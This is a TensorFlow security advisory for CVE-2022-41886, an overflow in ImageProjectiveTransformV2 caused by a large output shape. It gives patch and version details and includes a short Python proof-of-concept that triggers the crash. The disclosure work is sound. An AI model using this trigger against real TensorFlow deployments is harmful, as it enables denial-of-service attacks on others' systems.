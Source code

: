 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-148.md
## TFSA-2022-148: Overflow in `ImageProjectiveTransformV2`

### CVE Number
CVE-2022-41886

### Impact
When [`tf.raw_ops.ImageProjectiveTransformV2`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/image/image_ops.cc) is given a large output shape, it overflows.
```python
import tensorflow as tf

interpolation = "BILINEAR"
fill_mode = "REFLECT"
images = tf.constant(0.184634328, shape=[2,5,8,3], dtype=tf.float32)
transforms = tf.constant(0.378575385, shape=[2,8], dtype=tf.float32)
output_shape = tf.constant([1879048192,1879048192], shape=[2], dtype=tf.int32)
tf.raw_ops.ImageProjectiveTransformV2(images=images, transforms=transforms, output_shape=output_shape, interpolation=interpolation, fill_mode=fill_mode)
```

### Patches
We have patched the issue in GitHub commit [8faa6ea692985dbe6ce10e1a3168e0bd60a723ba](https://github.com/tensorflow/tensorflow/commit/8faa6ea692985dbe6ce10e1a3168e0bd60a723ba).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou from the Secure Systems Lab (SSL) at Brown University.
